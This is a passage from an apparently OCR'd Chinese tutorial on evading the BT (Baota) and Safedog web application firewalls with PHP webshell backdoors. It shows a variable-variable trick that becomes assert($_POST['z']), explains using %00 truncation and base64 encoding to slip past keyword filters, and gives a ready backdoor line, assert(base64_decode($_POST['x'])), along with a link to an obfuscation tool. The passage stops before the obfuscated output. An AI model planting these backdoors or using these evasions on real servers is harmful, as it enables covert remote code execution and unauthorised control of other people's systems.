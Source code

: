 

**利用：** 

**例如：后门文件为** **1.php** **则，在服务器上使用** **http://IP/1.php****?x=b&y=assert** **即可** **实现****因为这样赋值后****$a=b** **$$a=assert=$b** **所以直接变成了** **assert($_POST[‘z’]);**

**
**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQibJsktKI8VFzH4DRTkwP94HkQDXicBxDlq4icPqXLQofSqia36YB2KW4YA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)





**③加密传输** 

**思路：****后门直接调用** **system|phpinfo** **等敏感字段时会被** **BT** **所拦截，尤其是** **BT** **的** **WAF** **会拦截** **/\*** **字符的出现，在绕过时，就需要配合截断****(%00)****，去处理或者相关加密技术** **在上述调用** **phpinfo()** **时，是没开启** **BT** **的，之开启** **safedog** **模式，所以没有出现拦截，** **一旦开启了** **BT****，就会对特殊的关键词进行拦截** 

**下面便是** **BT** **拦截的相关字段**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQh0JQOnC9qGDG8iaaVv4RcLnuzr6mG9XKDxgD7LoQ7iaiaGATibN4gwbTmQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

**从而就衍生了加密的方式进行绕过，因为** **BT** **只对指定的字段进行加密，所以可以从加** **密方面进行字段上的绕过 如典型的可逆的** **base64** **编码**

**
**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQjibFXlJEib2OlvB1dC0PJCc6icR3q6qN5cibZduEcRhLplCaVicpQqFodFg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ41Pta3Igic4lPas8KHH0B1ke2PLic00U01yuAhaa8AxxoqNENoFPyAVw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**利用：**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQBcN2kxjODD1DZk3YSql86o97Lpwibfia63Qibhnticzoa9UwTkyS2H279A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQmm2Rd6CXYTlyRQPtzXUMhBLWiaj1phw0NvCuicR1kPJYnZVXt3VLYOgQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**注意：**在 BT 里是会变量进行关键词检测的，也就是如果在变量里出现 base64 字段就会 进行拦截，不过此时在这并没有在变量中调用 base64，而是后门文件中调用了，所以不拦 截。



**④****加密混淆** 

**思路：** **既然可以加密传输，就会有其它加密的方法，就有了加密混淆使得** **WAF** **软件无** **法检测到关键字段同样达到** **WAF** **的绕过** 

PHP 混淆加密脚本下载地址： https://github.com/djunny/enphp



**后门语句****:** 

**目标加密语句****:** <?phpassert(base64_decode($_POST['x'])); ?>

**通过命令混淆后如下****:** 
